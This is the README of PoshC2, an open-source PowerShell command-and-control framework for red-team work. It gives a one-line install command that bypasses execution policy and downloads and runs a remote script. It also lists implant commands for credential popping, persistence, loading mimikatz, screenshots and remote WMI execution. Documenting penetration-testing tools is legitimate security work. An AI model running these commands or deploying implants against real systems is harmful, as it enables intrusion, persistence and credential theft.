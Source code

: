 Powershell C2:
================
Released as an open source project by Nettitude UK Limited - http://www.nettitude.com

Developed and maintained by @benpturner & @davehardy20

Requires only Powershell v2 on both server and client

![alt tag](https://github.com/nettitude/PoshC2/wiki/images/C2-server-1.PNG)


Install:
================
powershell -exec bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/nettitude/PoshC2/master/C2-Installer.ps1')"

Run a new C2 Server:
==============================================
Run Start-C2-Server shortcut as Administrator (Windows 7,8 & 10)

Connect an existing database with valid implants:
=================================================
Run Restart-C2Server shortcut as Administrator (Windows 7,8 & 10)

**Very important if you want legacy payloads to re-connect to your C2 server**

Using the Implant-Handler:
===========================
Select the implant ID, then issue commands, e.g. 1. 
For multiple implants, select with comma seperator, e.g. 1,2,3

PS > Whoami

PS > Beacon 60

PS > Get-Service

PS > CreatePayloadProxy

PS > Cred-Popper

PS > Install-Persistence

PS > Remove-Persistence

PS > WMICommand -username domain\user -password pass -command "echo 1 > c:\test.txt"

PS > Get-Screenshot

PS > Invoke-AllChecks

PS > LoadModule invoke-mimikatz.ps1

PS > Get-RecentFiles

PS > back (to use another implant from the database)
